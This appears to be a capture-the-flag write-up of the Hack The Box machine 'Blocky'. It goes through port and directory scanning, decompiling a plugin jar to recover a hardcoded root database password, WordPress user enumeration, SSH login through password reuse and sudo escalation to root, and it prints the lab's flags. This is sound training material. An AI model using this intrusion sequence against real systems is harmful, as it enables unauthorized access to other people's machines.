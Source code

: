 ## -------------->> Blocky <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.37 -p-
-----------

    Nmap scan report for 10.10.10.37
    Host is up (0.14s latency).
    Not shown: 65530 filtered ports
    PORT      STATE  SERVICE   VERSION
    21/tcp    open   ftp       ProFTPD 1.3.5a
    22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
    |   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
    |_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
    80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.8
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: BlockyCraft &#8211; Under Construction!
    8192/tcp  closed sophos
    25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 184.05 seconds

// Navigating to http://10.10.10.37/ , display us a game website in development

// Rolling down the site there is a 'Login' button

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/1.png)

// Clicking on the login redirect us to http://10.10.10.37/wp-login.php

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/2.png)

// Lets search for some interesting files or directories with [dirsearch](https://github.com/maurosoria/dirsearch) tool (By maurosoria).

    $ python3 dirsearch.py -u http://10.10.10.37/ -t 100
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.37/_21-08-12_09-31-32.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-12_09-31-32.log

    Target: http://10.10.10.37/

    ...
    
    [09:32:19] 200 -   19KB - /license.txt
    [09:32:27] 200 -   10KB - /phpmyadmin/
    [09:32:27] 200 -  745B  - /plugins/
    [09:32:29] 200 -    7KB - /readme.html
    [09:32:38] 200 -  380B  - /wiki/
    [09:32:38] 200 -    1KB - /wp-admin/install.php
    [09:32:38] 200 -    0B  - /wp-config.php
    [09:32:38] 200 -    0B  - /wp-content/
    [09:32:38] 200 -    1B  - /wp-admin/admin-ajax.php
    [09:32:38] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
    [09:32:39] 200 -  965B  - /wp-content/uploads/
    [09:32:39] 200 -    0B  - /wp-cron.php
    [09:32:39] 200 -    2KB - /wp-login.php
    [09:32:39] 200 -   40KB - /wp-includes/

    Task Completed

// Found directories: /wiki/ , /plugins/ , /phpmyadmin/ , /wp-includes/ , 

// /Wiki-Underconstructin , /phpmyadmin/-phpmyadmin login , /wp-includes/-Wordpress plugins

// But, /plugins/ have 2 interesting files in him

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/3.png)

// Its two .jar(ziped java) files , Download them

    $ ls
    BlockyCore.jar  griefprevention-1.11.2-3.1.1.298.jar

// Lets unpack BlockyCore.jar

    $ jar -xf BlockyCore.jar 
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

// BlockyCore.jar generated 2 directories: META-ING & com

    $ tree
    .
    ├── BlockyCore.jar
    ├── META-INF
    │   └── MANIFEST.MF
    └── com
        └── myfirstplugin
            └── BlockyCore.class

// We can see that inside com there is another directory with file in him - 'BlockyCore.class'

// tring to see the file contant failed becouse its compiled, let decompile that file with online [java decompiler tool](http://www.javadecompilers.com/result)

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/4.png)

    package com.myfirstplugin;

    public class BlockyCore
    {
        public String sqlHost;
        public String sqlUser;
        public String sqlPass;

        public BlockyCore() {
            this.sqlHost = "localhost";
            this.sqlUser = "root";
            this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        }
        public void onServerStart() {
        }
        public void onServerStop() {
        }
        public void onPlayerJoin() {
            this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
        }
        public void sendMessage(final String username, final String message) {
        }
    }

// We have credentials ! 

        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        

// Since we know now we dilling with Wordpress CMS we can use [wpscan](https://wpscan.com/wordpress-security-scanner) to scan for vulnerabillities

    $ wpscan --url http://10.10.10.37/ --api-token YOUR_API_KEY --plugins-detection mixed -e
-----

    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|

             WordPress Security Scanner by the WPScan Team
                             Version 3.8.18
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.10.37/ [10.10.10.37]
    [+] Started: Thu Aug 12 06:04:31 2021
    
    ...

    [i] User(s) Identified:

    [+] notch
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

// We have username 'notch' for Wordpress 

// Also can find in the main site

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/5.png)

// Since we have user, password and SSH service running, lets try to connect

    $ ssh notch@10.10.10.37

    notch@10.10.10.37's password: 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

    notch@Blocky:~$ id
    uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

// We connected !!! And have user flag

    notch@Blocky:~$ cat user.txt 
    59fee0977fb60b8a0bc6e41e751f3cd5

### -----Privilleges Escalation-----

// running 'sudo -l' command we can see that this user can run sudo so simple 'sudo -i' gets us root


    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL

    notch@Blocky:~$ sudo -i
    root@Blocky:~# 

// And the flag !

    root@Blocky:~# cat root.txt 
    0a9694a5b4d272c694679f7860f1cd5f
